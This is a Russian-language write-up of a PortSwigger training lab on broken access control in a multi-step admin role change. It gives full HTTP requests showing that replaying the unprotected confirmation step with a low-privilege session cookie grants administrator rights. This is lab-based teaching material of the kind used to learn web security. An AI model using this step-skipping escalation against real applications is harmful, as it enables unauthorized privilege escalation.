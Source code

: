 ```yaml
---
title: "Multi-step process with no access control on one step"
date: 2025-07-24
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step"
classes: wide
---
```


У нас есть данные для входа в учетную запись администратора `administrator`:`admin` и в нашу `wiener`:`peter`.

Для прохождения лабы нужно повысить права нашего аккаунта через **уязвимость контроля доступа в многоэтапных процессах**.

```
https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/
```

## Solution

Зайду в аккаунт админа. Далее в админ панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/1.png){: height="200" .align-center}

Изменю права `carlos`, чтобы собрать примеры запросов. Первый запрос:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=a6TJSBlFMfA6NdDFXkyV823s7KHTwoFt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&action=upgrade
```

Второй запрос:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/2.png){: height="200" .align-center}

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=a6TJSBlFMfA6NdDFXkyV823s7KHTwoFt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin-roles
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

action=upgrade&confirmed=true&username=carlos
```

Закину запросы в `Repeater` и перейду в свой ЛК.

Подставлю новую печеньку, чтобы отправлять запросы не от лица админа. Попробую изменить первый запрос:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=u8YcNctzG7Cqa03jU2zCvyNTnJ8xSX6g
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&action=upgrade
```

~~Отказ~~Ответ:

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
Set-Cookie: session=BEdfm5r7oSkeStSTiFVVGdcHNisfH0Pi; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

Попытаю удачу со вторым запросом:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=u8YcNctzG7Cqa03jU2zCvyNTnJ8xSX6g
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin-roles
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

action=upgrade&confirmed=true&username=wiener
```

Ответ:

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Появилась вкладка панели администратора:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/3.png){: height="200" .align-center}


Лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/4.png){: height="200" .align-center}
